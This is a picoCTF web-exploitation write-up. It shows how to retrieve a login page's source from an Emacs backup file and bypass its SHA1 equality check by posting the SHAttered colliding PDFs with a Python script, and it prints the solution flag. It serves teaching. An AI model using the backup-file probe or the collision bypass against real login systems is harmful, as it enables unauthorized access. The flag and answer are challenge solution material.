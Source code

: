 ### 📂 Challenge: Apriti Sesamo

**Category:** Web Exploitation  
**Points:** [varies]  
**Challenge Link:** [http://verbal-sleep.picoctf.net:49414/impossibleLogin.php](http://verbal-sleep.picoctf.net:49414/impossibleLogin.php)

---

### 🧠 Description

We are given a login page that claims to be "impossible to hack." Hints suggest the developer uses Emacs and mentions backup files. Let’s investigate!

---

### 🔍 Step 1: Discovering Backup Files

From the hints:
- **Hint 1:** "Backup files"
- **Hint 2:** "The lead developer is a militant emacs user"

Emacs often creates backup files like `file.php~`.

So we tried accessing:

```
http://verbal-sleep.picoctf.net:49414/impossibleLogin.php~
```

✅ **Success!** It revealed the actual PHP source code of the login logic.

---

### 🧩 Step 2: Reviewing the Source Code

Here’s what we saw in the backup file:

```php
<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])) {
    $yuf85e0677 = $_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
    $rs35c246d5 = $_POST[base64_decode("\143\x48\144\153")];
    if ($yuf85e0677 == $rs35c246d5) {
        echo base64_decode("UGJyLz5GYWlsZWQhIFRyeSBhZ2Fpbg==");
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents(base64_decode("Li4vZmxhZ3MudHh0"));
        } else {
            echo base64_decode("UGJyLz5GYWlsZWQhIFRyeSBhZ2Fpbg==");
        }
    }
}
?>
```

We decoded the base64 manually:

```php
base64_decode("UGJyLz5GYWlsZWQhIFRyeSBhZ2Fpbg==") → "Pbr/>Failed! Try again"
base64_decode("Li4vZmxhZ3MudHh0") → "../flags.txt"
```

---

### 🧠 Step 3: Understanding the Vulnerability

The code checks:

1. If `username == password`: ❌ don’t care
2. Then it checks:
   ```php
   if (sha1($username) === sha1($password)) {
       echo file_get_contents("../flags.txt");
   }
   ```

That means: if we send **different values** that **produce the same SHA1 hash**, we get the flag.

---

### 💣 Step 4: SHA1 Collision Attack

We used [https://shattered.io](https://shattered.io) to download two files:
- `shattered-1.pdf`
- `shattered-2.pdf`

These are **different PDFs** with the **same SHA1 hash**:
```bash
sha1sum shattered-1.pdf
sha1sum shattered-2.pdf
```

Both hashes are:
```
38762cf7f55934b34d179ae6a4c80cadccbb7f0a
```

---

### 🧪 Step 5: Exploiting via Python

We wrote a simple Python script to send the PDF contents as POST data:

```python
import requests

with open("shattered-1.pdf", "rb") as f1, open("shattered-2.pdf", "rb") as f2:
    r = requests.post("http://verbal-sleep.picoctf.net:49414/impossibleLogin.php", data={
        "username": f1.read(),
        "pwd": f2.read()
    })
    print(r.text)
```

### 🏁 Output

```html
...
picoCTF{w3Ll_d3sErV3d_Ch4mp_d543c99c}
```

---

### 🏆 Flag

```
picoCTF{w3Ll_d3sErV3d_Ch4mp_d543c99c}
```

---

### 📌 Takeaways

- Always check for `.php~` or `.bak` when hints mention editors
- Never compare hashes using `==` or `===`
- Use modern hash algorithms like SHA-256 or bcrypt with constant-time comparison

